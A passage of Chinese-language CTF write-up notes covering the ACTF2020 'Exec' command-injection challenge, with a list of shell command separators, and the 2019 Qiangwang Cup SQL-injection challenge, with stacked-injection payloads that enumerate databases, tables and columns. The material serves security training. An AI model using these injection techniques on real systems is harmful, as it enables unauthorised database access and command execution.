 ![image-20230412192213420](https://dabai-1316520326.cos.ap-nanjing.myqcloud.com/img/image-20230412192213420.png)

得到base64解码得到flag

## [ACTF2020 新生赛]Exec

常见管道符直接执行命令。

```
1. | （按位或），直接执行|后面的语句
2. || （逻辑或），如果||前面的语句是错误的，则执行后面的语句，否则的话只执行前面的语句
3. & （按位与），无论&前后的语句真假，都要执行
4. && （逻辑与），若前面的语句为假，则后面的语句也不执行；若前面的语句为真则执行前后两条语句
5. ; (作用和&一样)
```

![image-20230412193305228](https://dabai-1316520326.cos.ap-nanjing.myqcloud.com/img/image-20230412193305228.png)

## [强网杯 2019]随便注

输入1和2都回显正常

输入

```
1' order by 3 #
```

出现报错

![image-20230412193723936](https://dabai-1316520326.cos.ap-nanjing.myqcloud.com/img/image-20230412193723936.png)

说明字段有两位，尝试联合注入查询

```
1' union seclet 1,2#
```

不行，过滤了**select|update|delete|drop|insert|where|\./i**

我们尝试堆叠注入，原理很简单，就是通过 ; 号注入多条SQL语句。

```
1';show databases; #
```

![image-20230412194247241](https://dabai-1316520326.cos.ap-nanjing.myqcloud.com/img/image-20230412194247241.png)

爆表名**1'; show tables;#**

![image-20230412194440570](https://dabai-1316520326.cos.ap-nanjing.myqcloud.com/img/image-20230412194440570.png)

查表的字段**1';show columns from words;#**

**1'; show columns from `1919810931114514`;#**
**注意：表名为数字时，要用`包起来查询。**
